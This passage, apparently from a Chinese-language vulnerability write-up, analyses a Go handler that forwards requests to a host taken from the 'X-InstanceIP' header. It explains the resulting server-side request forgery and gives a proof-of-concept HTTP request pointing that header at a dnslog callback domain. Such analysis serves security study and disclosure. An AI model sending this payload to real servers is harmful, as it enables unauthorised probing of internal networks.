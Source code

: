 ```bash
        return
    }
    respBody, err := ioutil.ReadAll(response.Body)
    if err != nil {
        c.String(http.StatusNotFound,
            fmt.Sprintf("(could not fetch response body for error %s", err))
        return
    }

    c.String(http.StatusOK, string(respBody))
    return nil
}
```

分析以上代码，`r := c.Request()`获取请求对象，从声明变量中可以发现`instanceIP = r.Header.Get("X-InstanceIP")`将请求头中的 X-InstanceIP 做为实例 IP，`strings.Replace(r.RequestURI, "testSchema/", "", 1)`替换掉请求 URI 中的"testSchema/，然后将其与获取的`instanceIP`构造成新的请求 URL，然后根据原始请求的 HTTP 方法，创建新请求对象。后面就是对请求方式判断，以及添加原始请求的头部字段操作。最后`response, err = client.Do(req)`使用`client.Do`发送新请求，然后返回请求内容。

## 构造 poc

根据以上分析，我们知道了漏洞的大致流程当访问/testScqhema/\*路由时，`SchemaHandleFunc`函数，会从请求中读取`X-InstanceIP`参数，并将其定义为`instanceIP`，然后再将请求 URI 中的"testSchema/"去掉，再将其与获取的 ip 一起构造新的请求 URL，并访问。并且`X-InstanceIP`和请求 URL 我们都可控，就可以构造任意 http 请求，让服务器访问。

```bash
GET /testSchema/sc HTTP/1.1
Host: 127.0.0.1:30103
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="103", ".Not/A)Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
X-InstanceIP:6e65vf.dnslog.cnn
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
If-Modified-Since: Mon, 14 Mar 2022 14:09:37 GMT
Connection: close
```

# 漏洞复现
